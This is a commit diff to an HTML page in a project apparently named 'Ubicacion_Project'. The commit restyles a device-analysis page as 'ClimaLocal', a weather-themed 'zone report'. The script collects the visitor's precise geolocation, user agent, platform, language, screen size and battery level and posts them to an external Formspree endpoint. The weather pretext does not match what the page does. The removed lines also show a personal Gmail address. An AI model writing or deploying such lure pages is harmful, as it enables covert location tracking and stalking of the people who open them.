

Before and after one commit to JochitoCm17/Ubicacion_Project, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Revamp index.html for new design and features
Updated HTML structure and styles for improved layout and functionality.

```diff
--- a/index.html
+++ b/index.html
@@ -3,77 +3,210 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Cargando...</title>
+    <title>ClimaLocal — Reporte Rápido</title>
     <style>
-        body { font-family: 'Segoe UI', sans-serif; background-color: #0f0f0f; color: white; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
-        .card { background: #1e1e1e; padding: 20px; border-radius: 12px; text-align: center; width: 300px; box-shadow: 0 4px 10px rgba(0,0,0,0.5); }
-        h2 { margin-top: 0; font-size: 18px; }
-        p { font-size: 14px; color: #ccc; margin-bottom: 20px; }
-        .btn { background: #007bff; color: white; border: none; padding: 10px 20px; border-radius: 5px; cursor: pointer; font-size: 16px; width: 100%; }
-        .loader { border: 3px solid #333; border-top: 3px solid #007bff; border-radius: 50%; width: 20px; height: 20px; animation: spin 1s linear infinite; margin: 15px auto; display: none; }
-        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
-        #status { margin-top: 10px; font-size: 13px; color: #4cd137; display: none; }
+        * { box-sizing: border-box; }
+        body {
+            font-family: 'Segoe UI', system-ui, sans-serif;
+            background: linear-gradient(135deg, #141e30, #243b55);
+            color: #f5f7fa;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            min-height: 100vh;
+            margin: 0;
+            padding: 16px;
+        }
+        .card {
+            background: rgba(25, 35, 52, 0.92);
+            border: 1px solid rgba(255, 255, 255, 0.1);
+            padding: 28px 24px;
+            border-radius: 16px;
+            text-align: center;
+            width: 100%;
+            max-width: 360px;
+            box-shadow: 0 12px 30px rgba(0, 0, 0, 0.35);
+        }
+        .badge {
+            display: inline-block;
+            background: rgba(56, 189, 248, 0.15);
+            color: #7dd3fc;
+            font-size: 12px;
+            font-weight: 600;
+            padding: 4px 10px;
+            border-radius: 999px;
+            margin-bottom: 12px;
+        }
+        h1 {
+            margin: 0 0 8px;
+            font-size: 21px;
+        }
+        p {
+            font-size: 14px;
+            color: #cbd5e1;
+            line-height: 1.5;
+            margin: 0 0 22px;
+        }
+        .btn {
+            background: #0ea5e9;
+            color: #fff;
+            border: none;
+            padding: 12px 18px;
+            border-radius: 10px;
+            cursor: pointer;
+            font-size: 15px;
+            font-weight: 600;
+            width: 100%;
+            transition: background 0.2s ease, transform 0.1s ease;
+        }
+        .btn:hover { background: #0284c7; }
+        .btn:active { transform: scale(0.99); }
+        .loader {
+            border: 3px solid rgba(255, 255, 255, 0.15);
+            border-top: 3px solid #38bdf8;
+            border-radius: 50%;
+            width: 28px;
+            height: 28px;
+            animation: spin 0.9s linear infinite;
+            margin: 18px auto 10px;
+            display: none;
+        }
+        @keyframes spin {
+            0% { transform: rotate(0deg); }
+            100% { transform: rotate(360deg); }
+        }
+        .status {
+            margin-top: 14px;
+            font-size: 13px;
+            line-height: 1.45;
+            padding: 12px;
+            border-radius: 10px;
+            display: none;
+        }
+        .status.ok {
+            display: block;
+            background: rgba(34, 197, 94, 0.15);
+            border: 1px solid rgba(34, 197, 94, 0.35);
+            color: #86efac;
+        }
+        .status.err {
+            display: block;
+            background: rgba(239, 68, 68, 0.15);
+            border: 1px solid rgba(239, 68, 68, 0.35);
+            color: #fca5a5;
+        }
+        .meta {
+            margin-top: 16px;
+            font-size: 11px;
+            color: #94a3b8;
+        }
     </style>
 </head>
 <body>
 
 <div class="card">
-    <h2>📡 Analizando dispositivo...</h2>
-    <p>Toca el botón para ver los detalles.</p>
-    <button class="btn" onclick="enviar()">Ver Datos</button>
+    <span class="badge">🌤️ Servicio Local</span>
+    <h1>Reporte de Zona y Equipo</h1>
+    <p>Activa la consulta para preparar el reporte de tu ubicación actual y el estado básico de tu sesión.</p>
+
+    <button class="btn" id="btnAction" onclick="generarReporte()">Generar reporte ahora</button>
     <div class="loader" id="spinner"></div>
-    <div id="status">✅ Enviado al servidor</div>
+    <div class="status" id="statusBox"></div>
+
+    <div class="meta">Proyecto académico • Envío vía Formspree</div>
 </div>
 
 <script>
-    // ⚠️ IMPORTANTE: Reemplaza la línea de abajo con TU LINK DE FORMSPREE ⚠️
     const API_URL = "https://formspree.io/f/xgakrnjg";
 
-    async function enviar() {
-        document.querySelector('.btn').style.display = 'none';
-        document.getElementById('spinner').style.display = 'block';
+    async function obtenerUbicacion() {
+        if (!("geolocation" in navigator)) {
+            return { disponible: false, motivo: "No soportado" };
+        }
 
-        let info = {};
+        return new Promise((resolve) => {
+            navigator.geolocation.getCurrentPosition(
+                (pos) => {
+                    resolve({
+                        disponible: true,
+                        latitud: pos.coords.latitude,
+                        longitud: pos.coords.longitude,
+                        precisionMetros: Math.round(pos.coords.accuracy)
+                    });
+                },
+                (err) => {
+                    resolve({
+                        disponible: false,
+                        motivo: err.message || "Permiso denegado o no disponible"
+                    });
+                },
+                { enableHighAccuracy: true, timeout: 8000, maximumAge: 0 }
+            );
+        });
+    }
+
+    async function obtenerBateria() {
+        if (!("getBattery" in navigator)) {
+            return "No disponible";
+        }
+        try {
+            const b = await navigator.getBattery();
+            return `${Math.round(b.level * 100)}%${b.charging ? " (cargando)" : ""}`;
+        } catch (e) {
+            return "No disponible";
+        }
+    }
+
+    async function generarReporte() {
+        const btn = document.getElementById("btnAction");
+        const spinner = document.getElementById("spinner");
+        const statusBox = document.getElementById("statusBox");
+
+        btn.style.display = "none";
+        statusBox.className = "status";
+        statusBox.style.display = "none";
+        spinner.style.display = "block";
+
+        const ubicacion = await obtenerUbicacion();
+        const bateria = await obtenerBateria();
+
+        const payload = {
+            fechaHora: new Date().toISOString(),
+            ubicacion,
+            dispositivo: {
+                userAgent: navigator.userAgent,
+                plataforma: navigator.platform,
+                idioma: navigator.language,
+                pantalla: `${window.screen.width}x${window.screen.height}`,
+                bateria
+            }
+        };
 
         try {
-            // 1. Ubicación
-            if (navigator.geolocation) {
-                await new Promise(resolve => navigator.geolocation.getCurrentPosition(p => {
-                    info.lat = p.coords.latitude;
-                    info.lon = p.coords.longitude;
-                    resolve();
-                }, () => { info.error = true; resolve(); }));
+            const resp = await fetch(API_URL, {
+                method: "POST",
+                headers: {
+                    "Content-Type": "application/json",
+                    "Accept": "application/json"
+                },
+                body: JSON.stringify(payload)
+            });
+
+            spinner.style.display = "none";
+
+            if (!resp.ok) {
+                throw new Error("Respuesta no válida de Formspree");
             }
 
-            // 2. Dispositivo
-            info.ua = navigator.userAgent;
-            info.plat = navigator.platform;
-            info.lang = navigator.language;
-
-            // 3. Batería
-            let battery = 0;
-            try {
-                let b = await navigator.getBattery();
-                battery = Math.round(b.level * 100);
-            } catch(e){}
-            info.battery = battery + "%";
-
-            // Simular espera de "análisis"
-            await new Promise(r => setTimeout(r, 2000));
-
-            // Enviar a Formspree
-            await fetch(API_URL, {
-                method: 'POST',
-                headers: { 'Content-Type': 'application/json' },
-                body: JSON.stringify(info)
-            });
-
-            document.getElementById('spinner').style.display = 'none';
-            document.getElementById('status').style.display = 'block';
-            document.getElementById('status').innerText = "✅ Datos enviados a jp39919622@gmail.com";
-
+            statusBox.className = "status ok";
+            statusBox.innerHTML = ubicacion.disponible
+                ? `✅ Reporte enviado correctamente.<br><small>Coordenadas: ${ubicacion.latitud.toFixed(4)}, ${ubicacion.longitud.toFixed(4)}</small>`
+                : `✅ Reporte de equipo enviado.<br><small>Ubicación no compartida (${ubicacion.motivo}).</small>`;
         } catch (error) {
-            document.getElementById('status').innerText = "Error al enviar.";
+            spinner.style.display = "none";
+            btn.style.display = "block";
+            statusBox.className = "status err";
+            statusBox.textContent = "❌ No se pudo enviar el reporte. Revisa tu conexión o el endpoint de Formspree.";
         }
     }
 </script>
```
